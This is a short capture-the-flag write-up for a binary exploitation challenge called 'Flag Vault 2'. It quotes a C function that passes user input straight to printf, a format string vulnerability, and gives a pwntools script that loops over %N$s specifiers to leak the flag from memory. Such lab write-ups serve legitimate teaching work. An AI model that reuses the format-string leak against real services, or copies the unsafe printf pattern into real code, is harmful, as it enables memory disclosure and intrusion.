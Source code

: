 ```yaml
---
title: "Flag Vault 2"
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flag: THM{REDACTED}
---
```

> No description.

---

Given a binary, we can see that it is a simple program that reads a username. The flag is read from a file but is never printed to the screen. The user's input is printed to the screen as well.

```c
void print_flag(char *username){
        FILE *f = fopen("flag.txt","r");
        char flag[200];

        fgets(flag, 199, f);
        //printf("%s", flag);
	
	//The user needs to be mocked for thinking they could retrieve the flag
	printf("Hello, ");
	printf(username);
	printf(". Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...\n\n");
	printf("Yours truly,\nByteReaper\n\n");
}
```

Ah, another classic format string vulnerability. We can use the `%s` format string to read the flag from memory. We can use the following script to read the flag:

```py
from pwn import *

binary = './pwn21'

context.log_level = 'debug'
context.binary = binary
context.endian = 'big'

for i in range(32):
    e = ELF(binary)
    r = process(binary)
    # r = remote('10.10.191.2', 1337)

    r.sendlineafter(b'Username: ', flat([
        f"%{i}$s",
    ]))

    r.interactive()
```
